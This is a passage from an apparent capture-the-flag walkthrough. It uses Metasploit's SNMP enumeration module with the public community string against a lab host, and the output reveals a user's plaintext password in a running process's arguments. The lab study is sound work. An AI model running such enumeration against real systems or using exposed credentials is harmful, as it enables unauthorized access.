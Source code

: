They all look okay except for one, `RHOSTS`, which we'll need to set

```
set RHOSTS 10.10.11.136
```

Now if we run `options` again, we'll see this

```
Module options (auxiliary/scanner/snmp/snmp_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS     10.10.11.136     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (UDP)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    1                yes       SNMP Timeout
   VERSION    1                yes       SNMP Version <1/2c>
```

Perfect. Now just enter `run` (or `exploit` if you're feeling extra cool) to get it started.

It takes a while to run, but it spits out a *ton* of information about the system. Looking through all of it, there are a few lines that piqued my interest. Below is an excerpt containing them.

```
[*] Processes:

Id                  Status              Name                Path                Parameters          
1                   runnable            systemd             /sbin/init          maybe-ubiquity      
2                   runnable            kthreadd                                                    
3                   unknown             rcu_gp                                                      
4                   unknown             rcu_par_gp                                                  
6                   unknown             kworker/0:0H-kblockd
...
779                 runnable            udisksd             /usr/lib/udisks2/udisksd                    
867                 runnable            cron                /usr/sbin/cron      -f                  
869                 runnable            cron                /usr/sbin/CRON      -f                  
872                 runnable            sh                  /bin/sh             -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
876                 runnable            atd                 /usr/sbin/atd       -f                  
877                 running             snmpd               /usr/sbin/snmpd     -LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid
878                 runnable            sshd                sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups                    
908                 runnable            polkitd             /usr/lib/policykit-1/polkitd--no-debug          
929                 runnable            agetty              /sbin/agetty        -o -p -- \u --noclear tty1 linux
988                 runnable            mysqld              /usr/sbin/mysqld                        
992                 runnable            apache2             /usr/sbin/apache2   -k start            
1106                runnable            host_check          /usr/bin/host_check -u daniel -p HotelBabylon23
```